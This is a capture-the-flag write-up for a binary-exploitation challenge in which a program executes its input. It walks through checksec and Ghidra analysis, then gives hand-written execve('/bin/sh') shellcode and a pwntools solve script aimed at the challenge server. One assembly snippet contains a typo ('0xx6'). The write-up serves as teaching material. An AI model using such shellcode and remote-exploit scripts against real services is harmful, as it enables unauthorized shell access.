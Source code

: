 ```yaml
---
description: Shellcode with some limitation
---
```


# popping around shell

## Problem

<details>

<summary>Description</summary>

what if \xff\d9?

`nc 157.230.247.65 9696`

</details>

<details>

<summary>tldr;</summary>

provide a shellcode that bypasses limitation to spawn shell on remote machine

</details>

## Solution

### Analysis

Given a binary _<mark style="color:green;">**shell.out**</mark>_, the first thing we will do is to check the binary type and its security implementation.

```bash
$ file shell.out 
shell.out: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=99ab9f9e7ec19cba2b41d1cc5d40af86f726014f, stripped

$ checksec --file=shell.out  
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable    FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols        No    0               2     shell.out
```

basic analysis summary:

* _<mark style="color:green;">**x64 least-bit ELF**</mark>_ binary
* _<mark style="color:green;">**dynamically linked**</mark>_, so it’ll depend on system library
* _<mark style="color:green;">**stripped**</mark>_, means function and variable name from the source code is not carried
* _<mark style="color:green;">**Full RELRO**</mark>_, means that the GOT entry table is not writable
* _<mark style="color:red;">**No Stack Canary**</mark>_, means no additional checks if the stack is overflown
* _<mark style="color:green;">**NX enabled**</mark>_, means the stack is not executable
* _<mark style="color:red;">**No PIE**</mark>_, means base address is hard-coded and not randomized

The primary objective of this challenge is to navigate around limitations rather than pinpointing a vulnerability and taking advantage of it.

<figure><img src="../../../.gitbook/assets/Screenshot 2023-07-03 120000.png" alt=""><figcaption><p>decompiled main</p></figcaption></figure>

By examining the decompiled code in ghidra, we observe that the binary receives input data, saves it into a variable and tries to execute it as a function. If we can supply functional shellcode to the binary, it should spawn a shell for us.

we can potentially use _<mark style="color:green;">asm(shellcraft.sh())</mark>_, which ends up with 48 bytes of shellcode thus exceeding our input. It appears that we will need to create our own shellcode, which is likely the intended solution according to the author.&#x20;

So let’s discuss what our goal is, to spawn a shell we want to call _<mark style="color:green;">**execve('/bin/sh')**</mark>_ that is, a syscall that requires the following registers to be equal to a specific value accordingly:

1. _<mark style="color:blue;">**$RAX**</mark>_ = 0x3b
2. _<mark style="color:blue;">**$RDI**</mark>_ = a pointer to ‘/bin/sh’ string
3. _<mark style="color:blue;">**$RSI**</mark>_ = 0x0
4. _<mark style="color:blue;">**$RDX**</mark>_ = 0x0

to read more about this you can follow this link:

* [syscall table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md)
* [parameter registers](http://6.s081.scripts.mit.edu/sp18/x86-64-architecture-guide.html)

Thankfully, the author is nice enough to include the string within the binary, we can use ghidra to search for strings and we’ll find the address to it and because PIE is not enabled, we can simply point to it without worrying about address randomization.

<figure><img src="../../../.gitbook/assets/Screenshot 2023-07-03 121443.png" alt=""><figcaption><p>Strings in ghidra</p></figcaption></figure>

### Exploitation

to save up memory so we’ll use the 32-bit registers to make the syscall shorter. Below is the setup to register in assembly

```armasm
mov edi, 0x601010;
xor esi, esi;
xor edx, edx;
mov eax, 0xx6
```

<details>

<summary><em><mark style="color:green;"><strong>Solve Script</strong></mark></em></summary>

{% code title="Exploit.py" lineNumbers="true" %}
```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './shell.out'
elf = context.binary = ELF(exe, checksec=True)
libc = '/lib/x86_64-linux-gnu/libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
host, port = '157.230.247.65', 9696

def start(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
io = start()
rop = ROP(exe)

binsh_addr = 0x601010

# reference: https://ctftime.org/writeup/24007
# shellcode = asm(shellcraft.sh())
# shellcode = b'\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'
shellcode = asm('mov edi, 0x601010; xor esi, esi; xor edx, edx; mov eax, 0x3b; syscall;')

info('shellcode length: %#d', len(shellcode))
payload = flat([
    shellcode
])

# sending payload
io.send(payload)

io.interactive()
```
{% endcode %}

</details>

## Flag

<figure><img src="../../../.gitbook/assets/Screenshot 2023-07-03 135139.png" alt="" width="563"><figcaption><p>get shell and read flag</p></figcaption></figure>

> _**flag{shell\_is\_just\_\xff\d9}**_
